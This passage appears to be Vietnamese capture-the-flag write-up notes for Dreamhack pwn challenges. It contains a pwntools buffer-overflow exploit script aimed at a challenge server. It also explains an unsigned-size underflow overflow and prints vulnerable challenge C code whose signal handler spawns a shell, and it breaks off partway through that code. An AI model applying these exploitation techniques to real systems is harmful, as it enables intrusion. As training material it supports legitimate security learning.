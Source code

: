 
![image](https://hackmd.io/_uploads/rJxPzIO7Je.png)

script 

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./chall')
p = process()
p = remote('host3.dreamhack.games', 17275)
p.sendafter(b'Menu: ',b'cherry'+b'a'*6+b'Z')
p.sendafter(b'cherry?: ',b'a'*0x12+b'a'*8+p64(exe.sym.flag))

p.interactive()
```

----------

19 . sint
-------

nhìn vào code , ta có thể hiểu nôm na là nếu ta muốn size > 256 hoặc < 0 thì nó sẽ exit ctrinh , và khi ctrinh bị SIGSEGV thì nó sẽ gọi hàm get_shell 

- ok target của bài này có 2 hướng
- BOF và lợi dụng signal()
- khi nhập size = 0 , size_t  sẽ có kiểu unsigned → nếu nhập 0  khi tới read sẽ là size -1 = -1 và nó sẽ read rất nhiều bytes → BOF


script 

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);
```